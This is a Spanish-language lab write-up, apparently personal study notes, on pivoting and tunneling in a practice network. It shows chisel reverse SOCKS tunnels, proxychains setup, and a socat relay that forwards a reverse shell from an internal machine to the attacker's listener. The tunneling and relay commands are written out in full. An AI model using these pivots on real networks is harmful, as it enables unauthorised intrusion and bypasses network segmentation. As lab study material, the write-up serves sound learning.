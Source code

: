 [[Lab Pivoting, Tunneling - Synfonos]]
En la máquina 2, lo que debemos hacer es enviar el tráfico de esta máquina a la de atacante, y para ello usaremos chisel:
![[Pasted image 20240615204122.png]]

![[Pasted image 20240615204125.png]]

Ahora tenemos que ponernos en la máquina atacante con chisel a modo de servidor:
```bash
./chisel server --reverse -p 1234
```

![[Pasted image 20240615204130.png]]

Y ahora en la máquina 1 ejecutamos el chisel en modo cliente diciendo que pase por el puerto 1234 todo el tráfico remoto:
![[Pasted image 20240615204230.png]]

```bash
./chisel client 10.10.10.12:1234 R:socks
```

![[Pasted image 20240615204236.png]]

Y habremos recibido esta conexión también en la máquina atacante:
![[Pasted image 20240615204240.png]]

En la máquina 2, vamos a crear un servidor con python por el puerto 80, que trataremos de visualizar desde la máquina atacante:
![[Pasted image 20240615204245.png]]

![[Pasted image 20240615204248.png]]

Ahora que tenemos el tunel creado que nos une desde la máquina atacante a la máquina 2, debemos de configurar el proxychain de esta forma:
![[Pasted image 20240615204253.png]]

Al ser la primera máquina que conectamos, tenemos que dejar la primera línea sin comentar y la segunda comentada:
![[Pasted image 20240615204257.png]]

Y al final del todo tenemos que dejar esta línea:
![[Pasted image 20240615204317.png]]

Y en el navegador ponemos el tunel:
![[Pasted image 20240615204320.png]]

De tal forma que desde el navegador llegamos correctamente al puerto 80 de la máquina 2:
![[Pasted image 20240615204326.png]]

Ahora, si queremos llegar a esta máquina desde el terminal, debemos de especificar que queremos que el tráfico pase por el proxychains de la siguiente forma:
![[Pasted image 20240615204344.png]]

No obstante, si queremos llegar a esta máquina entablando una reverse shell, veremos que da error:
![[Pasted image 20240615204353.png]]

Esto error ocurre porque tenemos que habilitar socat en la máquina 1 para que pueda haber comunicación entre la máquina 2 y la atacante, por tanto, para seguir avanzando, tenemos que ejecutar el socat dentro de la máquina 1, de tal forma que diremos que el resto del port forwarding que nos llegue lo envíe a la máquina atacante, por tanto lo descargamos:
![[Pasted image 20240615204410.png]]

![[Pasted image 20240615204415.png]]

Nos compartimos el socat con la máquina 1:
![[Pasted image 20240615204419.png]]

![[Pasted image 20240615204422.png]]

Y ahora ejecutamos socat de esta forma, donde diremos que todo lo que reciba la máquina1 por el puerto 1111 de la interfaz 20.20.20.13 lo envíe a la máquina kali  por el puerto 111, que es donde tendremos netcat esperando conexiones:
```bash
./socat tcp-l:1111,fork,reuseaddr tcp:10.10.10.12:111
```

![[Pasted image 20240615204429.png]]

![[Pasted image 20240615204434.png]]

Y ahora si con la máquina 2 enviamos la reverse shell, debería de funcionar:

![[Pasted image 20240615204436.png]]


